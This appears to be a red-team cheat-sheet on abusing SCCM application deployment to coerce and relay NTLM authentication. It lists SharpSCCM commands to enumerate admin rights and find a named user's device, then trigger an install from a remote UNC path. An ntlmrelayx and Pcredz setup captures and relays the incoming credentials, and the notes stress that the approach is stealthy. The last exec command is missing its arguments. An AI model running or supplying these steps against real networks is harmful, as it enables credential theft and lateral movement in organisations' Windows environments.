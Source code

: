 * [https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867](https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867)

**Step 1**: Confirm Access permissions

```powershell
SharpSCCM.exe get class-instances SMS_Admin -p CategoryNames -p CollectionNames -p LogonName -p RoleNames
```

---
**Step 2**: Find target device

```powershell
# Search for device of user "Frank.Zapper"
SharpSCCM.exe get primary-users -u Frank.Zapper

# List all active SCCM devices where the SCCM client is installed 
### CAUTION: This could be huge
SharpSCCM.exe get devices -w "Active=1 and Client=1"
```

---
**Step 3**: Deploy Application to target device

In this final step you can choose to either create an actual application to deploy to the target machine or just trigger an install from a remote UNC path in order to capture and relay an incoming NTLM authentication. Note the following:

* Coercing an authentication might be stealthier (and requires less cleanup) than installing an application
* To capture and relay NTLM credentials, the target device must support NTLM (very likely).
* The neat part: The Authentication can be coerced using the primary user account of the device OR the device computer account (you can choose)

```bash
# Prep capturing server
## ntlmrelayx targeting 10.250.2.179
ntlmrelayx.py -smb2support -socks -ts -ip 10.250.2.100 -t 10.250.2.179

# Also keep Pcredz running, just in case
Pcredz -i enp0s8 -t
```
```powershell
# Run the attack
SharpSCCM.exe exec -rid  -r 
```

Note that the incoming authentication requsts might take a while (couple minutes) to roll in...
